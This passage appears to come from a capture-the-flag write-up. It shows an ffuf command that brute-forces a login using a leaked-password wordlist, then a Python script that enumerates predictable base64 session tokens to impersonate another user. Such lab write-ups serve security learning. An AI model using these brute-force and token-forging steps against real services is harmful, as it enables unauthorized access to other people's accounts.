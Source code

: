 ```sh
ffuf -c -w /usr/share/wordlists/seclists/SecLists-master/Passwords/xato-net-10-million-passwords-100000.txt:FUZZ -request req.txt -request-proto http -fs 31
```

Password : 07061955


##### API Token Analysis Challenge

login with admin : ramirez
Given hint : jeremy logs in at the same time as the admin

And we get a base64 encoded token

Decoded value : admin-17:36:12-chk

So username-TimeStamp-Random3Alphabets

Generate all possible combinations of 3 alphabets

```python
#!/usr/bin/env python3

import base64

chars = 'abcdefghijklmnopqrstuvwxyz'
prefix = 'jeremy-17:36:12-'
perms = []

for i in range(len(chars)):
	for j in range(len(chars)):
		for k in range(len(chars)):
			perms.append(prefix+ chars[i] + chars [j] + chars [k])
			
for perm in perms:
	print(base64.b64encode(perm.encode()).decode())
```


Output the contents to token.txt

We want to encode our data as base64 and we can do that in payload processing in burp suite

```sh
ffuf -request req.txt -request-proto http -w tokens.txt:FUZZ
```